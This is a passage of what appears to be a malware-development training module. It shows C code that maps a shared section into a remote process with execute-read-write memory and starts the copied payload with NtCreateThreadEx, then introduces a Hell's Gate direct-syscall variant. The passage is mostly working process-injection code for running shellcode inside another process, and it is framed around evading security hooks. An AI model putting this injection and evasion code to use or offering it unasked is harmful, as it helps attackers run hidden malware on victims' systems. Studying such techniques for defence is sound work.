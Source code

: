 ```
	memcpy(pLocalAddress, pPayload, sPayloadSize);
	printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pLocalAddress);

//--------------------------------------------------------------------------

	// Allocating remote map view
	if ((STATUS = NtMapViewOfSection(hSection, hProcess, &pRemoteAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection [R] Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Remote Memory Allocated At : 0x%p Of Size : %d \n", pRemoteAddress, sViewSize);

//--------------------------------------------------------------------------

	// Executing the payload via thread creation
	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pRemoteAddress);
	if ((STATUS = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pRemoteAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

//--------------------------------------------------------------------------

	// Unmapping the local view - only when the payload is done executing
	if ((STATUS = NtUnmapViewOfSection((HANDLE)-1, pLocalAddress)) != 0) {
		printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	// Closing the section handle
	if ((STATUS = NtClose(hSection)) != 0) {
		printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	return TRUE;
}


```
### **Implementation Using Hell's Gate**

The last implementation for this module is using Hell's Gate. First, ensure that the same steps done to set up the Visual Studio project with SysWhispers3 are done here too. Specifically, enabling MASM and modifying the properties to set the ASM file to be compiled using the Microsoft Macro Assembler.
